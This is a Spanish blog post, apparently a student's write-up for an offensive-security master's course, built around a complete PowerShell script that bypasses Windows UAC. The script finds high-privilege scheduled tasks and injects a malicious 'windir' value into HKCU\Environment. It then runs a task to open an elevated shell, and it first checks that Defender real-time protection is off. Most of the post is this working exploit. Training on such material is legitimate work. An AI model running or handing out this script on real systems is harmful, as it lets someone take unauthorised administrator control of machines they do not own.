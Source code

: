 ﻿---
layout: post
title: "M6 - ByPass UAC PS"
date: 2024-11-17 05:25:00 
categories:
    - posts
tags:
    - Master
    - PowerShell
    - UAC
---

## Enunciado de la tarea

En esta tarea se pide hacer un bypass de UAC creando para ello un código en Powershell. Se pide:

-  Utilizar la técnica Environment Injection basándose en el artículo de Tyranid’s Lair: https://www.tiraniddo.dev/2017/05/exploiting-environment-variables-in.html. Se debe automatizar las siguientes partes:

    Identificar la tarea programada que es débil a una inyección de variables de entorno
    Identificar el nombre de la variable de entorno que es débil
    Crear la clave de registro adecuada para cuando se invoque la tarea programada
    Ejecutar la tarea programada y verificar que realmente el bypass de UAC ha funcionado

- En el caso de que esta técnica ya no funcione, se puede utilizar otra técnica de UACMe (siempre que vuestro script sea hecho por vosotros, hay que explicarlo en la memoria de trabajo).

- [OPCIONAL] Este punto no es obligatorio en la práctica. Busca el uso de esta técnica en herramienta automáticas como Metasploit o Empire. Si no lo encuentras y quieres probar en un laboratorio propio puedes poner un ejemplo: a través de una Shell de tipo bind o reverse logra hacer bypass de UAC utilizando dicha técnica y consiguiendo una nueva sesión ya elevada.

## Enfoque

Al ser el primer script realizado en PS, veo prácticamente todo el curso de PS de Pablo y sobre todo la MasterClass. Tiempo apremia así que me lanzo a hacer el PoC de la inyección de variable de entorno, tras consultar con Pablo pruebo sin la protección del Defender en tiempo real y ahora si funciona. Me peleo bastante con el Script y una vez que funciona le agrego 2 funciones, 1. Hacer backup cada vez que se ejecuta el script en el Desktop, 2. Restauración de Registro.

## Script

```powershell
# Función para hacer un backup de la clave de registro
function Backup-RegistryKey {
    $desktopPath = [Environment]::GetFolderPath("Desktop")
    $backupFile = Join-Path $desktopPath "Backup_$(Get-Date -Format 'yyyyMMddHHmmss').reg"
    reg export "HKCU\Environment" $backupFile
    Write-Host "Backup realizado en: $backupFile"
}

# Función para restaurar la clave de registro desde el backup
function Restore-RegistryKey {
    $backupFile = Read-Host "Introduce la ruta completa del archivo de backup"
    $backupFile = $backupFile.Trim() # Elimina espacios al principio y al final
    if (Test-Path $backupFile) {
        cmd /c "reg import `"$backupFile`"" 2>$null
        if ($LASTEXITCODE -eq 0) {
            Write-Host "Registro restaurado correctamente desde el archivo: $backupFile"
        } else {
            Write-Warning "Hubo un problema al restaurar el registro."
        }
    } else {
        Write-Warning "Archivo no encontrado: $backupFile"
    }
}

# Función para identificar tareas vulnerables e intentar el bypass
function UACBypass {
    Write-Host "Buscando tareas programadas vulnerables a inyección de variables de entorno..."
    $tasks = Get-ScheduledTask | 
        Where-Object { $_.Principal.RunLevel -ne "Limited" -and 
                       $_.Principal.LogonType -ne "ServiceAccount" -and 
                       $_.State -ne "Disabled" -and 
                       $_.Actions[0].CimClass.CimClassName -eq "MSFT_TaskExecAction" }

    if ($tasks.Count -eq 0) {
        Write-Warning "No se encontraron tareas vulnerables."
        return
    }

    # Mostrar las tareas vulnerables
    Write-Host "Tareas vulnerables a inyección de variables de entorno:"
    $tasks | Select-Object TaskName, TaskPath | Format-Table

    # Seleccionar la primera tarea vulnerable
    $taskName = $tasks[0].TaskName
    $taskPath = $tasks[0].TaskPath
    $fullTaskPath = "$taskPath$taskName"

    # Verificar si la tarea está configurada para ejecutarse con privilegios más altos
    $task = Get-ScheduledTask -TaskName $taskName
    if ($task.Principal.RunLevel -eq "Highest") {
        Write-Host "La tarea está configurada para ejecutarse con privilegios elevados."
    } else {
        Write-Host "La tarea no está configurada para ejecutarse con privilegios elevados."
    }

    # Inyectar la variable de entorno maliciosa
    reg add hkcu\Environment /v windir /d "cmd /K reg delete hkcu\Environment /v windir /f && REM "
    Write-Host "Variable de entorno maliciosa inyectada."

    # Ejecutar la tarea programada
    Write-Host "Ejecutando la tarea programada: $fullTaskPath"
    schtasks /Run /TN $fullTaskPath /I

    Write-Host "Si todo ha ido bien, deberías haber obtenido una shell elevada con privilegios de administrador."
}

# Menú principal
function Show-Menu {
    Write-Host "Opciones disponibles:"
    Write-Host "1. Restaurar Registro"
    Write-Host "2. Intentar Bypass de UAC"
    Write-Host "3. Salir"
}

# Script principal
function Main {
    # Comprobar Windows Defender
    if ((Get-MpPreference).DisableRealtimeMonitoring -eq $false) {
        Write-Warning "Windows Defender está habilitado en tiempo real. El bypass de UAC fallará."
        return
    }

    # Crear un backup inicial del registro
    Backup-RegistryKey

    # Mostrar menú al usuario
    while ($true) {
        Show-Menu
        $choice = Read-Host "Selecciona una opción (1/2/3)"
        switch ($choice) {
            "1" {
                Write-Host "Restaurar Registro:"
                Restore-RegistryKey
            }
            "2" {
                Write-Host "Intentando bypass de UAC..."
                UACBypass                
            }
            "3" {
                Write-Host "Saliendo del script."
                exit
            }
            default {
                Write-Warning "Opción no válida. Intenta de nuevo."
            }
        }
    }
}

# Ejecutar el script principal
Main
```


## PoC

https://www.youtube.com/watch?v=OQbxniTdVw0


---

Máster en Seguridad Ofensiva (OSCP)

M6. ByPass UAC

Nicolás Damián Sadofschi | https://xargs.cat

"""

